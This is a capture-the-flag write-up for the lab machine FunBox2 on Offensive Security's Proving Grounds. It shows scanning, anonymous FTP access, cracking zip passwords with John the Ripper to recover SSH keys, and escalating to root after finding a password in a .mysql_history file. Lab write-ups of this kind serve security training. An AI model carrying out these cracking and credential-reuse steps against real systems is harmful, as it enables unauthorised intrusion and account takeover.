

# 
**Date:** June 12th 2022

**Author:** j.info

**Link:** [**Proving Grounds**](https://portal.offensive-security.com/proving-grounds/play) on Offensive Security

**PG Difficulty Rating:** Easy

<br>



<br>

## Objectives
- local.txt flag
- proof.txt flag

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 192.168.120.107`

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.5e
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/logs/
|_http-title: Apache2 Ubuntu Default Page: It works
```

<br>

### Gobuster Scan

`gobuster dir -u http://192.168.120.107 -t 100 -r -x php,txt,html -w dir-med.txt`

```
/robots.txt           (Status: 200) [Size: 17]
/index.html           (Status: 200) [Size: 10918]
```

<br>

## FTP Digging

We're allowed in with **anonymous**:

```
Connected to 192.168.120.107.
220 ProFTPD 1.3.5e Server (Debian) [::ffff:192.168.120.107]
Name (192.168.120.107:kali): anonymous
331 Anonymous login ok, send your complete email address as your password
Password: 
230-Welcome, archive user anonymous@192.168.49.211 !
230-
230-The local time is: Sun Jun 12 14:20:46 2022
230-
230-This is an experimental FTP server.  If you have any unusual problems,
230-please report them via e-mail to <root@funbox2>.
230-
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

Listing of files:

```
ftp> ls -al
229 Entering Extended Passive Mode (|||1255|)
150 Opening ASCII mode data connection for file list
drwxr-xr-x   2 ftp      ftp          4096 Jul 25  2020 .
drwxr-xr-x   2 ftp      ftp          4096 Jul 25  2020 ..
-rw-r--r--   1 ftp      ftp           153 Jul 25  2020 .@admins
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 anna.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 ariel.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 bud.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 cathrine.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 homer.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 jessica.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 john.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 marge.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 miriam.zip
-r--r--r--   1 ftp      ftp          1477 Jul 25  2020 tom.zip
-rw-r--r--   1 ftp      ftp           114 Jul 25  2020 .@users
-rw-r--r--   1 ftp      ftp           170 Jan 10  2018 welcome.msg
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 zlatan.zip
226 Transfer complete
ftp>
```

I run an mget * to download all files but it doesn't download **.@admins** or **.@users** so I manually download those and then start looking through the files.

**.@users**:

```
Hi Users,

be carefull with your keys. Find them in %yourname%.zip.
The passwords are the old ones.

Regards
root
```

**.@root**:

```
SGkgQWRtaW5zLAoKYmUgY2FyZWZ1bGwgd2l0aCB5b3VyIGtleXMuIEZpbmQgdGhlbSBpbiAleW91cm5hbWUlLnppcC4KVGhlIHBhc3N3b3JkcyBhcmUgdGhlIG9sZCBvbmVzLgoKUmVnYXJkcwpyb290
```

`echo "SGkgQWRtaW5zLAoKYmUgY2FyZWZ1bGwgd2l0aCB5b3VyIGtleXMuIEZpbmQgdGhlbSBpbiAleW91cm5hbWUlLnppcC4KVGhlIHBhc3N3b3JkcyBhcmUgdGhlIG9sZCBvbmVzLgoKUmVnYXJkcwpyb290" | base64 -d`

```
Hi Admins,

be carefull with your keys. Find them in %yourname%.zip.
The passwords are the old ones.

Regards
root
```

**welcome.msg** is just text that was displayed when logging into the ftp server.

All of the .zip files are password protected and identical in size and creation date so it's likely they're all the same.

I use **zip2john** on each of the zip files and compare the hash vaules produced. All users have the same hash except for **cathrine** and **tom** which have unique hashes. 

Running **John the Ripper** to crack these hashes only works for cathrine and tom as well:

`john --format=pkzip tom rockyou.txt`

`john --format=pkzip cathrine rockyou.txt`

```
<REDACTED>           (tom.zip/id_rsa)
<REDACTED>         (cathrine.zip/id_rsa)
```

I unzip those 2 files using these passwords and end up with 2 **id_rsa** files which I rename to the users in question:

```
-rw-------  1 kali kali 1675 Jul 25  2020 id_rsa_cathrine
-rw-------  1 kali kali 1675 Jul 25  2020 id_rsa_tom
```

<br>

## System Access

I ssh over as **tom** using the id_rsa_tom file and login with no issues:

`ssh -i id_rsa_tom tom@192.168.120.107`

```
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-117-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Jun 13 03:43:20 UTC 2022

  System load:  0.01              Processes:             161
  Usage of /:   74.5% of 4.37GB   Users logged in:       0
  Memory usage: 36%               IP address for ens256: 192.168.120.107
  Swap usage:   0%


30 packages can be updated.
0 updates are security updates.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

tom@funbox2:~$
```

<br>

## System Enumeration

Looking in the tom home directory shows us our first flag **local.txt**:

`wc -c /home/tom/local.txt`

```
33 /home/tom/local.txt
```

I'm unable to use `sudo -l` since it requires a password and we don't have one for tom yet.

In his home directory there is a file called **.mysql_history** and inside it we have some credentials for the SQL database:

```
_HiStOrY_V2_
show\040databases;
quit
create\040database\040'support';
create\040database\040support;
use\040support
create\040table\040users;
show\040tables
;
select\040*\040from\040support
;
show\040tables;
select\040*\040from\040support;
insert\040into\040support\040(tom,\040<REDACTED>);
quit
```

Given we now have a potential password for **tom** I try `sudo -l` again and it works this time:

```
[sudo] password for tom: 
Matching Defaults entries for tom on funbox2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tom may run the following commands on funbox2:
    (ALL : ALL) ALL
```

I was also able to login to the SQL database with these credentials. Looking around the database did not show us anything interesting other than the password hash for tom, but we already have his password.

<br>

## Root

Given we can run anything as root I just use `sudo su`

```
tom@funbox2:~$ sudo su
root@funbox2:/home/tom#
```

Grabbing our last flag:

`wc -c /root/proof.txt`

```
33 /root/proof.txt
```

<br>

With that we've completed this CTF!


<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration using **nmap** and **gobuster**
- Finding an unsecured **ftp server** that allowed **anonymous** login and downloading files from it
- The files we downloaded are password protected **.zip** files containing **id_rsa** keys
- Using **zip2john** and **John the Ripper** to crack the password on 2 of the .zip files and then using the **id_rsa** key to ssh in for our initial foothold
- Finding credentials in a **.mysql_history** file
- Using those credentials to access **sudo -l** and finding we can run anything we want as root
- Escalating to root using **sudo su**

<br>

Many thanks to:
- [**Offensive Security**](https://www.offensive-security.com/) for hosting this CTF
